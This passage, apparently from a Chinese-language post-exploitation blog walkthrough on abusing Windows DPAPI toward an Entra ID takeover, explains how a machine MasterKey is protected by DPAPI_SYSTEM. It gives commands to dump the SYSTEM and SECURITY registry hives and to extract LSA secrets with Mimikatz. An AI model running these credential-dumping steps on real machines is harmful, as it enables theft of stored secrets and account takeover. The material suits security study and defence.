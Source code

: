 ![image-20250929195549876](/assets/posts/2025-09-30-from-dpapi-to-chrome-a-journey-to-entra-id-takeover/image-20250929195549876.png)

从返回的结果中可以看到，该 Data BLOB 受到 GUID 为 {bc01a1a5-999c-4652-bc65-9e3c79ebcce5} 的机器/系统 MasterKey 保护，接下来需要解密这个机器/系统 MasterKey。

（3）由于机器/系统级别的 MasterKey 密钥基于 DPAPI_SYSTEM 密钥进行加密，而 DPAPI_SYSTEM 存放于 LSA 机密或 `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets\DPAPI_SYSTEM` 注册表中。因此最近简单的方法通过转储注册表来获取 DPAPI_SYSTEM 密钥。

```powershell
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SECURITY SECURITY
```

将转储的 SYSTEM 和 SECURITY 文件拷贝到本地，通过 Mimikatz 进行解析得到 DPAPI_SYSTEM 值。

```powershell
lsadump::secrets /system:SYSTEM /security:SECURITY
```
